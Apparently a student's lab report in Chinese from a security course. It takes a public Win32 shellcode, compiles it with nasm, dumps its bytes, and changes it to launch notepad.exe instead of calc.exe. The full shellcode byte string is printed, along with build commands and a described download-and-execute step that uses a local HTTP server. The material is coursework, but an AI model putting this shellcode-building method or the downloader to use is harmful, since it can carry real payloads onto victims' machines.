








## 实验2
### 要求
- 把[这个链接](https://exploit-db.com/shellcodes/48116)中shellcode能够成功运行，
- 能从汇编源码编译通过并成功dump，
- 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理，
- 修改shellcode功能为运行记事本程序notepad. exe，
- (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行

### 实验过程/遇到的问题P/解决方案S

1> 将弹计算器的shellcode拷贝下来运行

P: 进程退出，弹计算器失败

S: ①将.cpp改为.c；②将x64的管理器改为x86  


2> 打开kali虚拟机，将弹计算器的shellcode的源码部分拷贝到kali上的一个.asm文件里，执行
```
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
得到shellcode字符串


  


3> 分别得到 ”\x00exe“ ”.dap“ “eton” 的十六进制码，将calc.exe字符串修改为notepad.exe

P: 这样修改会导致进程退出，弹notepad失败


S: 把要改的部分删掉不是这样注释掉
  


4> 打开kali虚拟机，将弹notepad的shellcode的源码部分拷贝到kali上的一个.asm文件里，执行
```
nasm -f get_notepad.asm -o get_notepad.o
for i in $(objdump -D get_notepad.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
得到shellcode字符串
```
\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b
\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c
\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8
\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55
\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b
\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66
\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4
\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba
\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65
\x18\xe8\xb8\xff\xff\xff\x31\xc9\x68\x65\x78\x65\x00\x68\x70
\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89\xe3\x41\x51\x53\xff\xd0
\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f
\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x83\xff\xff\xff\x31
\xd2\x52\xff\xd0
```

拷贝到.c里面执行

注：源码见notepad.asm和get_notepad.c

5> 打开cmd执行`python -m http.server 8081`，查看本机IP地址，在指定文件夹开始http服务器，共享指定文件夹文件


6> 执行dl_exec.cpp，下载了ov.exe，弹出notepad


P：  

S: 改成LoadLibrary(L"urlmon.dll");


#### 参考
[使用Python开启简单的本地HTTP服务器](https://blog.csdn.net/u013214588/article/details/88684602)
